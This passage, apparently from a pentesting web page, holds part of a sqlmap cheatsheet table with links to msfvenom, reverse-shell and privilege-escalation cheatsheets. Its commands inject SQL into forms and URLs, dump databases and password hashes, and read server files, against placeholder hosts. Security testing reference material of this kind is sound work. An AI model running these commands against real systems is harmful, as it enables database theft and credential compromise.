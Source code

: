 –cookie=jsessionid=54321 –level=5 –risk=3</td>
<td>Automated sqlmap scan</td>
</tr>
<tr>
<td>sqlmap -u TARGET -p PARAM –data=POSTDATA –cookie=COOKIE<br>
–level=3 –current-user –current-db –passwords<br>
–file-read=”/var/www/blah.php”</td>
<td>Targeted sqlmap scan</td>
</tr>
<tr>
<td>sqlmap -u “http://meh.com/meh.php?id=1”<br>
–dbms=mysql –tech=U –random-agent –dump</td>
<td>Scan url for union + error based injection with mysql backend<br>
and use a random user agent + database dump</td>
</tr>
<tr>
<td>sqlmap -o -u “http://meh.com/form/” –forms</td>
<td>sqlmap check form for injection</td>
</tr>
<tr>
<td>sqlmap -o -u “http://meh/vuln-form” –forms<br>
-D database-name -T users –dump</td>
<td>sqlmap dump and crack hashes for table users on database-name.</td>
</tr>
</tbody>
</table>


MSFVenom Cheatsheet: https://hacktoday.io/t/msfvenom-cheatsheet/3150 <br>
Pentesting Cheatsheets: https://hacktoday.io/t/pentesting-cheatsheets/2635 <br>
SUID Executables - Linux Privilege Escalation Cheatsheet: https://hacktoday.io/t/suid-executables-linux-privilege-escalation-cheatsheet/2865 <br>
Steganography - Cheatsheet: https://hacktoday.io/t/steganography-cheatsheet/2261 <br>
Reverse Shell Cheatsheet: https://hacktoday.io/t/reverse-shell-cheat-sheet/2397 <br>
